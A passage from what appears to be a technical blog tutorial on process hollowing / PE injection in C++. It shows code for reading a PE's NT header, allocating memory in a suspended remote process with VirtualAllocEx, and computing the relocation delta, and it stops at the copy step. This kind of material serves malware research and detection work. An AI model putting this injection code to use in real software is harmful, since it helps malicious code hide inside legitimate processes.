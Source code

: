 Here a simple function to retrieve the NT Header from the injected PE content.


{% highlight C++ %}
BOOL retrieveNtHeader(PIMAGE_NT_HEADERS& ntHeader, LPVOID peContent)
{
    PIMAGE_DOS_HEADER dosHeaders = (PIMAGE_DOS_HEADER)peContent;
    if (dosHeaders->e_magic != IMAGE_DOS_SIGNATURE)
    {
        _err("[-] ERROR: Input file seems to not be a PE\r\n");
        return FALSE;
    }
    ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)dosHeaders + dosHeaders->e_lfanew);

    _dbg("[+] Dos Header: 0x%x\r\n", dosHeaders->e_magic);
    _dbg("[+] NT headers: 0x%p\r\n", ntHeader);

    return TRUE;
}
{% endhighlight %}

## Allocate Memory 

Once the suspended process is created and the NT Header retrieved, we need to allocate memory on the remote process to store the payload.  
The size of the injected PE image will be used to allocate memory.

{% highlight C++ %}
PVOID allocAddrOnTarget = NULL;
allocAddrOnTarget = VirtualAllocEx(pi->hProcess, NULL,  peInjectNtHeader->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!allocAddrOnTarget)
{
    _err("Error in allocating memory on target process: %x\r\n", GetLastError());
    exit(1);
}
{% endhighlight %}
Once the memory has been allocated, it is required to compute the offset between the allocation address and the preferred Image Base Address of the PE contained in the OptionalHeaders. This offset will be used to patch the binary during the relocation phase.

{% highlight C++ %}
DWORD64 DeltaImageBase = (DWORD64)allocAddrOnTarget - peInjectNtHeader->OptionalHeader.ImageBase;
{% endhighlight %}

On most articles, the allocation is performed on the Image base Address of the legitimate process after beeing unmapped. However it has been preferred to not touch the original memory of process and let the operating system decide where the allocation will be made because, to load missing libraries of the injected PE into the remote process, it is needed to create remote threads. The process crashes when we attempt to create a remote thread when the remote process Image is unmapped. Therefore, it is needed to let untouched the original Image.  

## Copy PE in target process

